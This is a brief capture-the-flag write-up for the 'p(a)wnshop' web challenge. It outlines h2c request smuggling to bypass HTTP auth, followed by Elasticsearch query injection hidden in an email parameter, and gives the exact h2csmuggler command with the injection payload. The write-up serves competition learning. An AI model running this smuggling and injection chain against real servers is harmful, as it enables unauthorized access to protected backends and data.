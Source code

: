 ```
p(a)wnshop - 478pts - 9 solves - Author: rekter0

pawnshop is the leading hacking tools marketplace, an important auction holding a flag is happening. We want to know if listed items are not leaked before auction ends.

Challenge

Attachment

Note:
- flag is lowercase
- .htpasswd is not meant to be bruteforced, one running in remote is different


First Blood
1. RadboudInstOfPwning
2. Black Bauhinia
3. Never Stop Exploiting
```

1- h2c request smuggling to bypass http auth

2- Elastic search injection through email compliant RFC

you can use https://github.com/BishopFox/h2csmuggler

```
./h2csmuggler.py -x https://pawnshop.2021.3k.ctf.to:4443/backend/ "http://localhost:8080/admin.py?action=lookup&mail='*\" AND value:*http2_4nd* OR value:\"'@aa.com"
```
